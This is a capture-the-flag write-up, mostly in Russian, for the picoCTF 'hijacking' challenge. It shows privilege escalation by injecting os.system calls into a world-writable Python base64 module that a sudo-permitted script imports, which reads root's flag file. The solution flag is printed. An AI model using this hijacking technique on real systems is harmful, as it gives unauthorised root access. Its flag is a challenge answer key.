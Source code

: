 # hijacking #
Category: Binary Exploitation

 
Score: 200
 
 Original description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
 
# Hints
1. Check for Hidden files

2. No place like Home:)

   
## Solution ##
 
Подключаемся по ssh.

Посмотрим скрытые файлы:

picoctf@challenge:~$ ls -al
total 20
drwxr-xr-x 1 picoctf picoctf   36 Apr  1 10:16 .
drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Apr  1 10:05 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
-rw------- 1 picoctf picoctf  960 Apr  1 10:16 .viminfo

Запустим .server.py

picoctf@challenge:~$ python3 .server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File ".server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname

Выдает ошибку.

Посмотрим через cat файлик:

picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 

Найдём местоположение используемых модулей :

picoctf@challenge:~$ python3
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']

Глядя на разрешения base64 модуля внутри /usr/lib/python3.8, мы имеем полный доступ для чтения, записи и выполнения.

picoctf@challenge:~$ ls -al /usr/lib/python3.8
-rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

Итак, можно модифицировать импортированный base64 модуль с помощью нашего собственного кода, т.к. весь код в импортированном модуле выполняется при импорте.

Проверим, какие команды можно запускать через sudo :

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
  (ALL) /usr/bin/vi
  (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Добавим в начало/lib/python3.8/base64.py через vim следующие строки :

import os
os.system('whoami')
os.system('ls -al /root > /home/picoctf/r.txt')
os.system('cat /root/.flag.txt')

Запусим .server.py:

picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
root
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname


flag: picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}



